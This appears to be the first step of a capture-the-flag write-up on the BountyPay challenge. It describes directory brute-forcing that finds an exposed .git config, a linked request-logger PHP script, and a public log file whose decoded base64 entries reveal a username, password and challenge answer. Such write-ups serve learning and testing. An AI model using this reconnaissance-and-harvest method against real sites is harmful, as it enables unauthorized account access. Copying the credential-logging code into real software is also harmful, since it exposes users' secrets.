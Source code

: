 1. Information Disclosure
---------------------

Doing some directory brute force to https://app.bountypay.h1ctf.com found a /.git/ directory with config file.

{F858119}

This config file is linked to a github repo https://github.com/bounty-pay-code/request-logger.git

```
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/bounty-pay-code/request-logger.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "master"]
	remote = origin
	merge = refs/heads/master
```

In this repo exist only one file called logger.php who explains how the website logs request and looks like this
```
<?php
$data = array(
  'IP'        =>  $_SERVER["REMOTE_ADDR"],
  'URI'       =>  $_SERVER["REQUEST_URI"],
  'METHOD'    =>  $_SERVER["REQUEST_METHOD"],
  'PARAMS'    =>  array(
      'GET'   =>  $_GET,
      'POST'  =>  $_POST
  )
);
file_put_contents('bp_web_trace.log', date("U").':'.base64_encode(json_encode($data))."\n",FILE_APPEND   );
```
in simple words, every line contains the timestamp and a base 64 encoded json string with request information. Then looked for bp_web_trace.log in https://app.bountypay.h1ctf.com/bp_web_trace.log and decoded the base64 string:

```bash
Original:
1588931909:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJHRVQiLCJQQVJBTVMiOnsiR0VUIjpbXSwiUE9TVCI6W119fQ==
1588931919:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIn19fQ==
1588931928:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC8iLCJNRVRIT0QiOiJQT1NUIiwiUEFSQU1TIjp7IkdFVCI6W10sIlBPU1QiOnsidXNlcm5hbWUiOiJicmlhbi5vbGl2ZXIiLCJwYXNzd29yZCI6IlY3aDBpbnpYIiwiY2hhbGxlbmdlX2Fuc3dlciI6ImJEODNKazI3ZFEifX19
1588931945:eyJJUCI6IjE5Mi4xNjguMS4xIiwiVVJJIjoiXC9zdGF0ZW1lbnRzIiwiTUVUSE9EIjoiR0VUIiwiUEFSQU1TIjp7IkdFVCI6eyJtb250aCI6IjA0IiwieWVhciI6IjIwMjAifSwiUE9TVCI6W119fQ==

Decoded:
1588931909:{"IP":"192.168.1.1","URI":"\/","METHOD":"GET","PARAMS":{"GET":[],"POST":[]}}
1588931919:{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX"}}}
1588931928:{"IP":"192.168.1.1","URI":"\/","METHOD":"POST","PARAMS":{"GET":[],"POST":{"username":"brian.oliver","password":"V7h0inzX","challenge_answer":"bD83Jk27dQ"}}}
1588931945:{"IP":"192.168.1.1","URI":"\/statements","METHOD":"GET","PARAMS":{"GET":{"month":"04","year":"2020"},"POST":[]}}

```
Bingo! got first credentials
